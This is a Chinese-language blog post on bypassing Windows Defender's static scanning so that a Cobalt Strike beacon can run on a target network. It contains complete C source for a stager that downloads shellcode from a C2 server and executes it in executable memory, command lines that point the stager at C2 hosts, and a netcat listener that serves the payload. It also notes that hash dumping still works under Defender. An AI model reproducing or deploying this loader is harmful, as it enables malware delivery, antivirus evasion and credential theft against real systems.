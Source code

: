 ```yaml
---
layout: post
title: Beacon-绕过windows defender
date: 2019-09-07 23:30:00
tags: Windows Defender
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面 
最近工作实在是太忙了，一直想找时间把这篇文章写出来，无奈工作压力太大一直没能抽出时间。今天趁这个周末的晚上把这篇文章写完吧。  
之前用beacon时习惯性的用windows dll，在windows server 2008 R2上一直运行的很不错，前段时间发现目标网络内部分操作系统升级到了windows server 2016，windows defender也升级到了最新版本，可想而知，没有经过处理的原始CS beacon payload传上去之后瞬间被秒了~~，果断google看看有没有好的解决办法，果然搜到了不少解决办法（具体见《参考》部分），今天只研究如何绕过静态扫描，以后补充如何绕过内存扫描、流量分析、行为分析，这里绕过静态扫描的方法：加密、混淆、截断拼接、payload字符（敏感字符或全部字符）替换、文件不落地等等，不过人怕出名猪怕壮，很多方法已经无法绕过windows defender的检测了。  
{:refdef: style="text-align: center;"}
![windows defender](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/windows%20defender.jpg?raw=true)
{: refdef}
图片来源于https://tweaklibrary.com/how-banking-trojan-disables-windows-defender-on-windows-10/



### \#0x01 尝试绕过 
在测试绕过windows defender的静态扫描时，使用了[Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，结果Obfuscation的部分文件直接被windows defender报毒了，关了defender继续使用Obfuscation把cs的payload进行了混淆，结果，还是绕不过defender的静态扫描；后来使用了[Veil](https://github.com/Veil-Framework/Veil)加密CS的Veil payload，结果可以绕过相当一部分杀软的静态扫描，但是还是过不了最新版的defender静态扫描。  
Obfuscation和Veil充分说明了什么叫“人怕出名猪怕壮”的道理。    

竟然混淆、加密都过不了defender的静态扫描，那尝试使用“文件不落地”的方式来尝试绕过defender。  

思路如下：  
编写一个简单的stager，这个stager仅用于申请内存、下载payload并执行，该stager本身并不包含恶意代码，因此可以绕过windows defender的静态扫描。  

##### 1、编写stager
首先编写stager用于远程下载payload并执行，这个stager是一个TCP客户端，从我们的C2服务器下载payload、申请内存、执行payload。代码如下(Visual Studio 2010编译)：  
```
#include "stdafx.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )


int main(int argc, char *argv[])
{    
	// Declare and initialize variables
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
   

	if (argc != 3) {
        fprintf(stderr,"usage: client hostname\n");
        exit(0);
    }
	struct hostent *host;
    if ((host=gethostbyname(argv[1])) == NULL) {  /* get the host info */			
        puts("Get IP address error!");     
        exit(0);
    }
	
	int port = 0;
	if ((port = atoi(argv[2])) == NULL) {  /* get the port info */
        puts("Get port error!");     
        exit(0);
    }

    SOCKET sclient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sclient == INVALID_SOCKET)
    {
        printf("invalid socket !");
        return 0;
    }

    sockaddr_in serAddr;
    serAddr.sin_family = AF_INET;
    serAddr.sin_port = htons(port);
	serAddr.sin_addr = *((struct in_addr *)host->h_addr);
	
    if (connect(sclient, (sockaddr *)&serAddr, sizeof(serAddr)) == SOCKET_ERROR)
    {
        printf("connect error !");
        closesocket(sclient);
        return 0;
    }  
    char recData[1024];
    int receivedBytes = recv(sclient, recData, sizeof(recData), 0);
	printf("received:%d\n",receivedBytes);
    if(receivedBytes > 0)
    {      
		LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	
		printf("Allocated memory for shellocode at:%p\n",shellcode);
	
		memcpy(shellcode, recData, sizeof(recData));	
		printf("Copied shellcode to:%p,Sending back meterpreter session...\n",shellcode);
		((void(*)()) shellcode)();
    }
    closesocket(sclient);
    WSACleanup();	
    return 0;
}
```
stager生成之后，上传至目标机器并执行，执行方式如：stager.exe c2_hostname port  
```
stager.exe www.xxxxxx.com 53
stager.exe 8.8.x.x 8080
```

##### 2、生成CS payload并在C2服务器启动TCP Server
使用CS生成payload  
{:refdef: style="text-align: center;"}
![生成payload](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/生成payload.png?raw=true)
{: refdef}   

在C2服务器上开启TCP Server，为了方便起见，直接使用netcat  
```
echo -e "\xfc\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\x00\x00\x00\x00\x00" | nc -l -p 53 -vvv
```
其中“\xfc\xxx\xxx\……\x00"为CS生成的payload。  

##### 3、目标上线
stager在目标机器上执行后，stager将在C2服务器下载payload并执行，目标上线。注意，虽然绕过了windows defender的静态扫描，但仍然需要小心defender的行为检测，比如利用beacon session进行提权、调用mimikatz时都会被defender检测到，不过dump hashes、proxy server等功能是可以正常执行的。  


### \#0x03 参考
* [渗透利器Cobalt Strike - 第2篇 APT级的全面免杀与企业纵深防御体系的对抗](https://xz.aliyun.com/t/4191#toc-5)
* [Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions](https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code) 
* [Cobalt Strike – Bypassing Windows Defender with Obfuscation](http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/)
* [Evading Windows Defender with 1 Byte Change](https://ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)  
* [I rolled my own crypto to work around](https://twitter.com/curi0usJack/status/1083470829290164227?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1083470829290164227&ref_url=https%3A%2F%2Ftwitter.com%2Fcuri0usJack%2Fstatus%2F1083470829290164227) 